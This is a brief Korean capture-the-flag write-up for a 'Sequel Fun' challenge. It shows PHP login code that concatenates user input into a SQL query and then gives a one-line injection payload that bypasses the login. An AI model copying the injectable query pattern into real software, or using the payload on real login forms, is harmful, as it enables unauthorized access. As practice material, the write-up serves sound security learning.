 # Sequel Fun
> ## **Overview**
간단한 SQLI 문제이다.  
```<?php include ("config.php"); if (isset ($_GET['user']) && isset ($_GET['pass'])) { $user = $_GET['user']; $pass = $_GET['pass']; if (strpos ($user, '1') === false && strpos ($pass, '1') === false) { $conn = new mysqli ($servername, $username, $password, $dbname); $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account if ($result === false) { echo "<b>Our servers have run into a query error. Please try again later.</b>"; } else { if ($result->num_rows !== 0) { $row = mysqli_fetch_array ($result, MYSQLI_ASSOC); echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>"; echo "<b class='flag'>"; if ($row ["uid"] === "0") echo $flag; else echo "Welcome elf!"; echo "</b>"; } else { echo "<b>Login fail.</b>"; } } } else { echo "<b>I don't like the number 1 :(</b>"; } } else { echo '<form class="center"> <h1>Santa Login:</h1> <label>Username:</label> <input type="text" name="user" autocomplete="off"><br> <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br> <input type="submit" value="Connect"> </form>'; } ?>```  

> ## **solve**
```user=test&pass=' or 2#```
